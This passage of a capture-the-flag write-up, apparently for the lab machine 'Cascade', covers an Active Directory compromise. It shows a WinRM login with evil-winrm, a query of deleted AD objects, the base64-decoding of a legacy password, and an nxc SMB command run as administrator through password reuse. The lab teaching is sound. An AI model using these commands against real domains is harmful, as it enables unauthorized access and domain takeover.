<figure><figcaption><p>Figure 18: The EXE file contains the precious key!</p></figcaption></figure>

Putting the acquired information on [CyberChef](https://gchq.github.io/CyberChef/) allows us to decipher the string (Figure 19).

<figure><figcaption><p>Figure 19: Using CyberChef to decrypt the password.</p></figcaption></figure>

The `arksvc` account has WinRM access, so we can log into the box and enumerate its group memberships (Figure 20).

```bash
# check WinRM access
nxc winrm 10.10.10.182 -u arksvc -p arksvc_pass
# log into the box
evil-winrm -i 10.10.10.182 -u arksvc -p $(cat arksvc_pass)
# list groups
whoami /groups
```

<figure><figcaption><p>Figure 20: Checking WinRM access and, finally, logging into the box!</p></figcaption></figure>

This service account is a member of the `AD Recycle Bin` group which has the ability to [query deleted objects](https://o365info.com/restore-active-directory-deleted-user-account-using-active-directory-recycle-bin-article-4-4-part-16-23/). One of them is the account `TempAdmin` and it also has a `cascadeLegacyPwd` field (Figure 21).


```powershell
# searching for deleted AD objects
Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -IncludeDeletedObjects -Filter {ObjectClass -eq "user"} -Properties *
```


<figure><figcaption><p>Figure 21: The cascadeLegacyPwd field of the deleted object TempAdmin.</p></figcaption></figure>

Luckily for us, this time the password is just base64-encrypted:

```bash
$ echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d
baCT3r1aN00dles
```

The email found earlier let us know that the password for `TempAdmin` was the same password as of the "_normal admin account_", so we can use them to achieve full domain compromise by reading both the `user.txt` and the `root.txt` files (Figure 22).


```bash
nxc smb 10.10.10.182 -u administrator -p tempadmin_pass -x 'type c:\users\administrator\desktop\root.txt'
```


<figure><figcaption><p>Figure 22: Password reuse leading to full domain compromise!</p></figcaption></figure>

## Resources










